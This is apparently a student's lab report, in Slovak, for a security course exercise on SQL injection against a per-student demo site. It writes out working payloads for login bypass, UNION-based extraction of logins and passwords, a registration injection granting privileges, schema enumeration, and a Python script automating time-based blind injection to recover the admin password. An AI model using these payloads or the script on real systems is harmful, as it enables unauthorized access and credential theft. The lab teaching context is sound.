

# Cvičenie 1 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 1.1 Hranie sa so SELECT-om

- Pomocou SQL injekcií v prihlasovacom formulári získajte “tajné heslo” k torpédam.
- Nájdite v tabuľke používateľa, ktorého login začína na písmeno “k”.
- Je jediný, ktorého meno začína na “k”?
- Koľko používateľov je v tabuľke users?

Najprv som skúsil zadať náhodné prihlasovacie údaje a stránka vypísala **invalid login**. Následne som zadal znak ```'```, aby som zistil, či je formulár zraniteľný na sql injection. Toto mi na stránke vyhodilo error code, čiže formulár je zraniteľný na sql injection. 

1. 
    Z možnosti zadavánia údajov, som usúdil, že query do DB vyzerá nejak takto:
    ```sql
    select * from users where username like '' and password like ''
    ```

    Tak som skúsil zadať do políčka login
    ```sql
    admin' -- 
    ```

    toto zapríčiní, že query bude vyzerať takto, pridanie komentára na koniec znamená, že zvysok query nebude vykonaný:
    ```sql
    select * from users where username like 'admin' -- and password like ''
    ```
    
        
2. Najprv som skúšal nasledujúce vstupy, ktoré mi vždy vyhodili error:

    ```sql
    admin' select * from users where username like "k%" -- 
    admin' and 1=1; select * from users where "="
    admin' select * from users # where name like 'k%
    ```

    problém bol v tom, že tieto vstupy by vrátili viac ako jeden výsledok a v query bol LIMIT 1.

    Ďalej som skúsil sql injection pomocou union select. Postupne som zisťoval koľko je v query stĺpcov.
    ```sql
    ' union select null from users where login like 'k%' -- 
    ```
    , pričom vždy keď som dostal error tak som pridal **null,** navyše. Keď som získal správny počet riadkov, nahradil som **null** číslami, aby som zistil poradové číslo parametra, ktoré query vracia. Pomocou tohto vstupu som zistil, ze sa vypíše parameter na 2. pozícii.

    ```sql
    ' union select 1, 2, 3, 4 from users where login like 'k%'--
    ```

    ```sql
    ' union select password, login, null, null from users where login like 'k%'-- 
    ```
    

    takto vyezeral výsledok, pričom používateľ je **kabar**.
    Pomocou tejto query upravenej o OFFSET som si vedel preiterovať všetkých používateľov v DB.

    ```sql
    ' union select password, login, null, null from users where login like 'k%' limit 1 offset 2#
    ```

    Používatelia v tabuľke users:
    - upratovacka
    - jozko
    - admin
    - kabar
    - kohutik

## 1.2 Registračný formulár
- Podstránka s registráciou obsahuje tiež SQL injection zraniteľnosť.
- Vytvorte si pomocou nej používateľa s vyššími privilégiami.

Pred vykonaním tejto úlohy som spravil úlohu 1.4, aby som získal prehľad o štruktúre DB.

Pri vkladaní do DB som predpokladal, že query vyzerá nasledovne:
```sql
insert into users (column1, column2, column3) values (value1, value2, value3)
```

Ako prvý krok som skúsil prikaz nižšie, pričom mi vyhodilo error pri registrácii. 

```sql
1, 'abcd', 'password') -- 
```

Po zmenení poradia hodnôt mi registrácia zbehla úspešne
```sql
abcd', 'password', 1) --
```


Prihlásenie sa za používateľa abcd


## 1.3 Blind injection
- Poznajúc štruktúru users tabulky (login, password, ...), zistite pomocou tzv. blind SQL injection zraniteľnosti heslo pre používateľa “admin”.
- Na zneužitie použite API endpoint s informáciami “o torpédach” na podstránke “torpedo.php”, kde atribút “id” môže obsahovať číslo torpéda.

Najprv uvediem neúspešné pokusy, ktoré som vykonal pre hociakú odozvu stránky.

```
https://xviest.bit.demo-cert.sk/torpedo.php?id=3'
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 -- 
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 sleep(3) --
```

Postupne som sa dopátral k príkazu:

```
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 and 1=2 union select sleep(5)
```

Tento príkaz uspal DB na 5 sekúnd, čím som docielil prístup k DB. Tento príkaz funguje tak, že prvá časť (id=3 and 1=2) je vždy false a tým pádom vráti 0 výsledkov. Keď to skombinujem pomocou **UNION** s query **select sleep(5)**, ktorá rovnako vracia 0 riadkov, DB sa uspí na 5 sekúnd.

V ďalšom kroku som nadviazal na tento príkaz a pridal som if statement:
```sql
https://xviest.bit.demo-cert.sk/torpedo.php?id=1 and 1=2 union select if(password like "5%", sleep(5), false) from users where login like "admin"--
```

V if statement kontrolujem či sa heslo pre používateľa admin začína na znak 5. (Viem, že sa začína na znak 5, lebo heslo som si vedel leaknuť z úlohy 1.1). Keďže už viem ako táto url funguje, vedel som si spraviť python script, ktorý postupne iteruje po všetkých číslach a kontroluje, či je response dlhší ako 2 sekundy. V prípade, že je, vie, že trafil správny znak v hesle a tento znak si zapamätá.

```python
import requests as requests
import time

password = ""
iterator = 0

try:
    for i in range(8):
        iterator = 0
        for id_number in range(0, 10):
            url = "https://xviest.bit.demo-cert.sk/torpedo.php?id=1 and 1=2 " \
                "union select if(password like \"{}{}%\" and login like 'admin', sleep(5), false) " \
                  "from users where login like \"admin\" --".format(password, id_number)
            start = time.time()
            response = requests.get(url)
            end = time.time()
            if end - start > 2:
                iterator = 1
                password += str(id_number)
                print("Found: {}".format(id_number))
                break
        if iterator == 0:
            print("Password found: {}".format(password))
            break
except requests.exceptions.RequestException as e:
    print("An error occurred:", e)
```


Heslo pre admina je 5957

## 1.4 Identifikácia štruktúry databázy
- Odhaľte pomocou zraniteľnosti identifikovanej v bode 1.1 štruktúru vašej DB
- Nájdite tajnú tabuľku, ktorej názov je iný ako users alebo torpedos a získajte jej obsah.

Po tabuľkách som vedel iterovať pomocou funkcie **OFFSET**, rovnako ako v ulohe 1.1. 

Najprv som si zistil verziu DB: 8.0.34-0ubuntu0.20.04.1

```sql
' UNION SELECT 1, @@version, 3, 4#
```

Pomocou offset som prešiel všetky schémy a našiel schému s mojím menom (xviest). Následne som si vyfiltroval všetky tabuľky, ktoré patria pod moje meno a znova som všetky preiteroval.

```sql
' UNION SELECT 1, table_schema, 3, 4 from information_schema.tables limit 1 offset 2#

' UNION SELECT 1, table_name, 3, 4 from information_schema.tables where table_schema like 'xviest' limit 1 offset 2#
```

**Zoznam tabuliek: torpedos, users, topsecret**

Rovnakým spôsobom som vedel prejsť aj columns pre každú jednu tabuľku:

```sql
' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'torpedos' limit 1 offset 0 #

' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'users' limit 1 offset 0 #

' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'topsecret' limit 1 offset 0 #
```

Pričom columns pre tabuľky boli:
- torpedos: id, status
- users: can_fire, login, password
- topsecret: keyz

Obsah tabuľky topsecret som zistil nasledovne:

```sql
' UNION SELECT 1, GROUP_CONCAT(keyz SEPARATOR ''), 3, 4 from topsecret#
```

tato query mi zlúči všetky výsledky z keyz do jedného stringu

**Obsah tabuľky:**

congratz. this is the end of first week....(go outside, nothing funny here)(seriously)


